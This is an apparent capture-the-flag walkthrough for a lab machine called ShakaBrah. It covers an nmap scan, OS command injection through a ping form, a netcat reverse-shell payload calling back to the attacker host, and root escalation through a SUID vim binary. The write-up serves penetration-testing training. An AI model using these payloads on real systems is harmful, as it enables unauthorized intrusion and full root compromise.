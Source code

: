 # Exploitation Guide for ShakaBrah 

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.134
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.134
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find a form allowing us to specify a host and verify the server's connectivity to that host. Specifying `localhost` we see the following output which indicates the server is running the `ping` command.
```
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.056 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.057 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.042 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3070ms
rtt min/avg/max/mdev = 0.022/0.044/0.057/0.014 ms
```

## Exploitation

It appears as though the server concatenates the host we specify with the string `ping -c 4 ` and then executes it via a shell. If the appropriate validation or sanitisation is not performed we can exploit this to inject our own commands. We will verify this by attempting to run the `id` command using the following payload: `; id`. The semicolon is the Bash command separator, allowing us to run the `id` command after `ping` has finished executing. The output below shows that our assumption was correct and we can inject and execute any OS command we wish.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To exploit this we will first start a Netcat handler listening on port 80 to catch our reverse shell.
```
kali@kali:~/# sudo nc -lvp 80
listening on [any] 80 ...
```

We will then submit the following payload containing a reverse shell to the connectivity verification web site.
```
;rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc kali 80 > /tmp/x"
```

We then catch our reverse shell and upgrade to a full TTY using Python.
```
kali@kali:~/# sudo nc -lvp 80
listening on [any] 80 ...
192.168.83.134: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.134] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@shakabrah:/var/www/html$
```

## Escalation

To escalate our privilege to `root` we will first enumerate all SUID binaries on the system.
```
www-data@shakabrah:/var/www/html$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
/bin/mount
/bin/su
/bin/ping
/bin/umount
/bin/fusermount
...
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/vim.basic
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
```

One which should suit our needs perfectly is `/usr/bin/vim.basic`. We can exploit this as follows.
```
www-data@shakabrah:/var/www/html$ /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "/bin/bash")'
<; os.setuid(0); os.execl("/bin/bash", "/bin/bash")'
```

After skipping over some struggles Vim has with our not fully functional terminal, we can see that we did indeed obtain `root` access.
```
root@shakabrah:/var/www/html# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@shakabrah:/var/www/html#
```
